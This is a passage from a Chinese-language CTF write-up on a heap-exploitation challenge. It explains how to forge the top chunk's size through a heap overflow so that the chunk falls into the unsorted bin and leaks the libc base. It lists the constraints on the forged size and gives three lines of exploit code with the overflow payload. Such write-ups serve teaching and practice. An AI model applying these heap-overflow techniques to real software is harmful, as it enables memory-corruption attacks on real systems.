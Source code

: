​    其他函数都没啥问题，而且打印堆块内容的函数，泄露libc困难。

### 调试过程

​     要完成利用的第一步通常就是泄露libc基址，这里可以通过堆溢出修改top chunk的size，让其进入unsorted bin中，然后切割泄露libc基址。但是需要注意的是：

1. 伪造的size必须要对齐到内存页

2. Size要大于MINSIZE(0x10)

3. Size要小于之后申请的chunk size + MINSIZE(0x10)

4. Size的prev_inuse位必须为1

 ```python
 add(0x10, 'verf1sh', 0x10, 1)
 edit(0x40, 'a'*0x18+p64(0x21)+p32(0x10)+p32(0x1f)+p64(0)*2+p64(0xfa1), 0x10, 1) # 通过溢出修改top chunk的size为0xfa1
 add(0x1000, 'verf1sh', 0x10, 1) # 申请一个大于此时topchunk的size，使top chunk掉入unsortbin
 ```

​    执行完add(0x10, 'verf1sh', 0x10, 1)，已经有三个堆块了。

 ![image-20211226165643619](/images/heap/image-20211226165643619.png)

​    这时，通过编辑堆块功能处的堆溢出漏洞将top chunk的size改小。

 ![image-20211226165650056](/images/heap/image-20211226165650056.png)
